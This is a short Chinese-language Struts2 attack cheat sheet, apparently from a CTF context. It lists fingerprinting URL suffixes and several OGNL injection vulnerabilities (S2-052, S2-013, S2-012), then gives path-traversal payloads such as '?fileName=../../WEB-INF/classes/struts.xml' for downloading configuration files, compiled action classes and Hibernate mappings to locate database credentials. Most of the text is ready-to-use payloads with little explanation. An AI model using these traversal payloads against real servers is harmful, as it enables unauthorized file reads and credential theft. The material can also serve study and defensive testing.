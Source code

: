 特征
/index.action
.do
.action
.do.cn.ction
.xhtml
.shtml

漏洞：

s2-052，namespace处插入OGNL代码引发的漏洞。
S2-013，链接标签带入参数时导致的OGNL解析漏洞
S2-012，链接标签带入参数时导致的OGNL解析漏洞

^
一般工具都能一把梭。综合工具abc_123编写的，B站搜希水函一讲堂，可以看使用教程。


^
## **struts2任意文件读取后利用**

常规，发现是struts
```
../../WEB-INF/web.xml
```


^
struts.xml是struts2的核心配置文件，在开发过程中利用率最高。该文件主要负责管理应用中的Action映射，以及该Action包含的Result定义等。
读取struts.xml
```
?fileName=../../WEB-INF/classes/struts.xml
```
同样根据映射下载
```
?fileName=../../WEB-INF/classes/com/cuitctf/action/UserLoginAction.class

类中引用类，同样下载
../../WEB-INF/classes/com/cuitctf/service/UserService.class

?fileName=../../WEB-INF/classes/com/cuitctf/util/InitApplicationContext.class
```

下载配置文件
```
?fileName=../../WEB-INF/classes/applicationContext.xml
?fileName=../../WEB-INF/classes/user.hbm.xml
```

最终可能找到数据库配置文件，数据库sql，存在sql注入等